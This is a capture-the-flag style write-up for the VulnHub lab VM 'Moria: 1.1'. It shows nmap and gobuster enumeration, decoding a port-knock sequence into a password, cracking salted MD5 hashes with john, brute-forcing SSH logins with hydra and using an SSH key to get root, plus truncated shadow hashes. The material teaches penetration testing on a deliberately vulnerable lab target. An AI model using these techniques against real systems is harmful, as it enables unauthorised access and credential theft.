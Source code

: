 [VulnHub] Moria: 1.1
===============
date: 17/Oct/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [Moria: 1.1](https://www.vulnhub.com/entry/moria-1,187/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

### Killchain
![writeup.overview.killchain](/static/files/posts_vulnhub_moria11/killchain.png.webp)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Fri Oct 11 15:31:50 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.moria11/results/192.168.92.188/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.moria11/results/192.168.92.188/scans/xml/_quick_tcp_nmap.xml 192.168.92.188
Nmap scan report for 192.168.92.188
Host is up, received arp-response (0.0019s latency).
Scanned at 2019-10-11 15:32:02 PDT for 15s
Not shown: 997 closed ports
Reason: 997 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 6.6.1 (protocol 2.0)
| ssh-hostkey:
|   2048 47:b5:ed:e3:f9:ad:96:88:c0:f2:83:23:7f:a3:d3:4f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5gdKNO3UCeDGX36RIZSkcVHvWknoFBZe2IT96Gep79sECS7G2pO76RFdOCJMru0Ek9EQKhMhHTrVI0DWDJFp2apdEPVsqn8nuJKUCHbaL49frQtFnR64b5WoM+f7VgEN84S+iPmUCwwgIMjR5hoYCAJFdJNpE27ZguVbnnN+i1491TDIO/cN92Uut/T70C3bntlsptY9N+fR0hOdkLg+K+TT1zX2BZOw99OMn9ytt3kSi4DNaoDpn9GDOfXhqeQH/eJWmFNTsFSM2+GHOAZKc0Ichiqhxf3WHoGOnliH8XdV6ZNpjHA8jGCYVcPnkTk42nP7E9Ql7mabsi+L3Ugq3
|   256 85:cd:a2:d8:bb:85:f6:0f:4e:ae:8c:aa:73:52:ec:63 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCuLX/CWxsOhekXJRxQqQH/Yx0SD+XgUpmlmWN1Y8cvmCYJslOh4vE+I6fmMwCdBfi4W061RmFc+vMALlQUYNz0=
|   256 b1:77:7e:08:b3:a0:84:f8:f4:5d:f9:8e:d5:85:b9:34 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILxa4UjJJ2naeaBginolO5UHAS/rB0Wh5mtDLQuNUYaN
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Gates of Moria
MAC Address: 00:0C:29:84:7D:D1 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 11 15:32:18 2019 -- 1 IP address (1 host up) scanned in 28.21 seconds
```

2\. We find a possible username from FTP banner:  
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
|_banner: 220 Welcome Balrog!
```

3\. We find a few interesting directories from `gobuster` scan. Exploring the `http://192.168.92.188:80/w` link, we follow it till the `http://192.168.92.188/w/h/i/s/p/e/r/the_abyss/` link which shows some random text:  
```
http://192.168.92.188:80/cgi-bin/ (Status: 403) [Size: 210]
http://192.168.92.188:80/cgi-bin/.html (Status: 403) [Size: 215]
http://192.168.92.188:80/index.php (Status: 200) [Size: 85]
http://192.168.92.188:80/index.php (Status: 200) [Size: 85]
http://192.168.92.188:80/w (Status: 301)
http://192.168.92.188/w/h/i/s/p/e/r/the_abyss/
```

![writeup.enumeration.steps.3.1](/static/files/posts_vulnhub_moria11/screenshot01.png.webp)  

![writeup.enumeration.steps.3.2](/static/files/posts_vulnhub_moria11/screenshot02.png.webp)  

4\. This link shows text that seems to be hinting towards port knocking, but we don't know the ports to knock on. Upon further exploration, it seems one of the text also hints towards `listening` or sniffing that could prove useful:  

![writeup.enumeration.steps.4.1](/static/files/posts_vulnhub_moria11/screenshot03.png.webp)  

5\. We run `wireshark` with a display filter `ip.addr == 192.168.92.188` to limit noise. In some time we see a bunch of `SYN` packets being sent to us from the target system. These packets are sent to following ports: `77, 101, 108, 108, 111, 110`  

![writeup.enumeration.steps.5.1](/static/files/posts_vulnhub_moria11/screenshot04.png.webp)  

6\. We try to knock these ports on the target system but nothing changed. Upon further exploration, it is found that the sequence actually is the ASCII values for a string `Mellon` that could be the password for the only known username we have as of now: `Balrog`  
```
nmap -Pn --host-timeout 100 --max-retries 0 -sS -p 77, 101, 108, 108, 111, 110
python -c 'print "".join([chr(x) for x in [77, 101, 108, 108, 111, 110]])'
  Mellon
```

![writeup.enumeration.steps.6.1](/static/files/posts_vulnhub_moria11/screenshot05.png.webp)  

![writeup.enumeration.steps.6.2](/static/files/posts_vulnhub_moria11/screenshot06.png.webp)  

7\. We tried to connect to FTP service with the `Balrog/Mellon` credentials but for some reason it didn't work:  
```
ftp 192.168.92.188
  Balrog
  Mellon
```

![writeup.enumeration.steps.7.1](/static/files/posts_vulnhub_moria11/screenshot07.png.webp)  

8\. From public writeups we find that the FTP user has access to the web root directory and this directory has an interesting file: `http://192.168.92.188/QlVraKW4fbIkXau9zkAPNGzviT3UKntl`  

![writeup.enumeration.steps.8.1](/static/files/posts_vulnhub_moria11/screenshot08.png.webp)  

![writeup.enumeration.steps.8.2](/static/files/posts_vulnhub_moria11/screenshot09.png.webp)  

9\. This file lists several usernames and what looks like password hashes. The page source also reveals the password salts and hash format as `MD5(MD5(Password).Salt)`. We find a good [reference](https://github.com/piyushcse29/john-the-ripper/blob/master/doc/DYNAMIC) for `john`'s dynamic hash variants. We create a `hashes` file by adding usernames, hashes and salts to it. We can now use `john` to crack these hashes:  
```
john --format=dynamic_6 hashes
```

![writeup.enumeration.steps.9.1](/static/files/posts_vulnhub_moria11/screenshot10.png.webp)  

### Findings
#### Open Ports
```
21/tcp  |  ftp   |  vsftpd 2.0.8 or later
22/tcp  |  ssh   |  OpenSSH 6.6.1 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```
#### Files
```
http://192.168.92.188/QlVraKW4fbIkXau9zkAPNGzviT3UKntl
```
#### Users
```
ftp: Balrog
```

## Phase #2: Exploitation
1\. We are able to successfully crack hashes for all users from this list and can now use `hydra` to check which username/password combo actually works. We find that the `Ori/spanky` credentials allow us SSH access to the target system:  
```
hydra -C creds 192.168.92.188 -t 4 ssh
ssh Ori@192.168.92.188
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_moria11/screenshot11.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_moria11/screenshot12.png.webp)  

## Phase #2.5: Post Exploitation
```
Ori@Moria> id
uid=1002(Ori) gid=1003(notBalrog) groups=1003(notBalrog)
Ori@Moria>  
Ori@Moria> uname
Linux Moria 3.10.0-514.el7.x86_64 #1 SMP Tue Nov 22 16:42:41 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
Ori@Moria>  
Ori@Moria> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.188  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::deef:db78:6f77:ebdf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:84:7d:d1  txqueuelen 1000  (Ethernet)
        RX packets 125  bytes 13540 (13.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 87  bytes 11999 (11.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
Ori@Moria>  
Ori@Moria> users
abatchy
Balrog
Ori
```

## Phase #3: Privilege Escalation
1\. We find that the user `Ori` has an entry for `localhost` within the `.ssh/known_hosts` file. This means, if local SSH configuration allows `root` user login and user `Ori`'s public key is in the `authorized_keys` of `root` user, we can SSH as `root` to localhost using `Ori`'s public key:  
```
ssh -i id_rsa root@192.168.92.188
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_moria11/screenshot13.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_moria11/screenshot14.png.webp)  

2\. We gain elevated access using the above technqiue and can now view the flag to complete the challenge:  
```
cat /root/flag.txt
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_moria11/screenshot15.png.webp)  

## Loot
### Hashes
```
root:$6$P7ElNgGp$fNzyy4OgqSR1ANJXTgbpzp4U42JXG1qJ55iNV10NVJoX5UWjtckWD0oHmcTOj0lqObyWhFu2y3udHVpHa........................
abatchy:$6$xEq/159Q$ScuKnynbwTBdFA4B9w6OqKxQpWPGpofi59McVuP6T1SADKhNy4n33Ovkk0hwZQkx72XriPSIrc2ubr16O........................
Balrog:$6$J6kuCfxq$L5ALsHRYfOu0bVV9MbW3.VZOUVEaKSWhfPIq5wXUFV407tpvH8Zx7WdbJeXgdWoPo9LU8eIznf0d44qoF........................
Ori:$6$1zYgjEIM$VQ0gvU7JjenS9WuiVjSeva8pbWnEXjqTmEdFnQRXKmTmXPXmt55/oyup40NiXD8J9GxmXF7DYiaHZDRshr.......................
```
### Credentials
```
ftp: Balrog/Mel...
ssh: Ori/span..
```

## References
* <https://www.vulnhub.com/entry/moria-11,187/>  
* <https://phackt.com/moria-vulnhub>  

